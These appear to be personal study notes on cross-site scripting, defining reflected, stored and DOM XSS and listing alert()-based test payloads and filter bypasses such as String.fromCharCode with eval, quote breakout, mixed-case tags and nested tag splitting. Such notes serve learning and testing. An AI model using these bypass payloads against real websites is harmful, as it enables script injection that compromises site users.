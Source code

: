 [HERE](http://evuln.com/tools/xss-encoder/) to encode your XSS payloads
https://aayla-secura.github.io/xss-fetch-evasion
XSS Study notes:

**Reflected XSS:**  
Injecting mal script into a searchbox or at the end of the URL. Think of it like throwing a ball against a wall and it bouncing back.

**Stored XSS:**  
This is when an injected script is stored in the website eg a guestbook or posting board. These hit everyone who reach the site.

**DOM:**  
Document object model EG you put in user and pass, they get loaded into the dom and checked - the page itself never loads the code thus stopping traditional XSS

https://domgo.at/cxss/sinks. 

AJAX = asynchronous JavaScript (they change their contents by manipulating areas within the document object model)

**Tests:**
`<script>alert('1234');</script>`  
`<h1><font color="#00FF00">I like turtles</font></h1> ` 

### Bypasses:  
 **1. magic_quotes_gpc=ON bypass:**  
   * Bypass this by converting your text to decimal characters and place them inside the java function: `String.fromCharCode()`  
   * EG `<script>alert('1234');</script> = <script>alert(string.fromcharcode(49, 50, 51, 52));</script>`  

 **2. 'alert' filter bypass:**
   * Bypass this by converting your text to decimal characters and place them inside the java function:  
   `<script>eval(String.fromCharCode(97,108,101,114,116,40,39,<message_here>,39,41))</script>`  
   (`97,108,101,114,116,40,39,39,41` = `alert('')`)
   
 **3. PHP htmlentities/script injection**
   * Considering: `<script>var $a= '';</script>` where htmlentities encodes crucial chars.  
   * Defeat with an injection - must end with declaring a var.
   `foo';alert(1);user='foo`
   
 **4. HEX encoding:**  
   * you can encode your payload as HEX, I could not get this to work, however this apparently is a valid bypass  
   
 **5. Obfuscation:**  
   * as a low level contrived example, some strings such as `"script","alert()","''"` as listed as bad words, so either sanitised or handled with exceptions. Low level obfuscation can bypass: `<sCrIpT>alert('turtles');</ScRiPt>` (I KNOW IT'S LAME)  
   
 **6. filter escape:**  
   * Sometimes tags will be filtered/escaped/regexed etc - as a contrived example these can be defeated with strings such as `<sc<script>ript>alert(1)</sc</script>ript>` which will trick the sanitiser into pulling out "`<script>`" and then leave the "`<sc`" and "`ript>`" thus putting it back together **:)**
   